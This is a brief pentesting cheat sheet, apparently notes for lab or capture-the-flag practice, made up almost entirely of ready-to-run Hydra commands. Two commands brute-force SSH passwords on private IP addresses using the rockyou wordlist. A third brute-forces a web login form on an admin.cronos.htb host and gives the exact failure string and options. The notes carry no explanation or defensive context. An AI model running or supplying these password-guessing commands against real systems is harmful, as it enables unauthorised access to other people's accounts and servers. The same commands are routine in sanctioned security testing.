 # Hydra bruteforce SSH password

```
hydra -t 4 -l <username> -P /usr/share/wordlists/rockyou.txt ssh://192.168.232.135

hydra –l aeolus –P /usr/share/wordlists/rockyou.txt 192.168.1.102 ssh
```

## Bruteforce WEB FORM 

```
hydra admin.cronos.htb http-post-form "/index.php:username=^USER^&password=^PASS^:F-Your Login Name or Password is invalid" -l admin -P /usr/share/john/password.lst -vV -f 
```



